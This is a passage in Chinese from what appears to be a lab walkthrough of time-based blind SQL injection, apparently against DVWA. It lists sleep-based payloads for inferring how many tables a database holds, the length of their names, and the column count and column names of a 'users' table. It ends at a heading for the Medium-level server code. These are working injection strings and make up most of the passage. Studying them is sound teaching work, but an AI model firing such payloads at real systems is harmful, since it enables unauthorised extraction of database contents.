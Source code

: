 重复上述步骤，即可猜解出数据库名。

### 3.猜解数据库中的表名

首先猜解数据库中表的数量：

1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)# 没有延迟

1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=2,sleep(5),1)# 明显延迟

说明数据库中有两个表。

接着挨个猜解表名：

1’ and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1,sleep(5),1) # 没有延迟

…

1’ and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9,sleep(5),1) # 明显延迟

说明第一个表名的长度为9个字符。

采用二分法即可猜解出表名。

### 4.猜解表中的字段名

首先猜解表中字段的数量：

1’ and if((select count(column_name) from information_schema.columns where table_name= ’users’)=1,sleep(5),1)# 没有延迟

…

1’ and if((select count(column_name) from information_schema.columns where table_name= ’users’)=8,sleep(5),1)# 明显延迟

说明users表中有8个字段。

接着挨个猜解字段名：

1’ and if(length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1,sleep(5),1) # 没有延迟

…

1’ and if(length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=7,sleep(5),1) # 明显延迟

说明users表的第一个字段长度为7个字符。

采用二分法即可猜解出各个字段名。

### 5.猜解数据

同样采用二分法。

## **Medium**服务器端核心代码
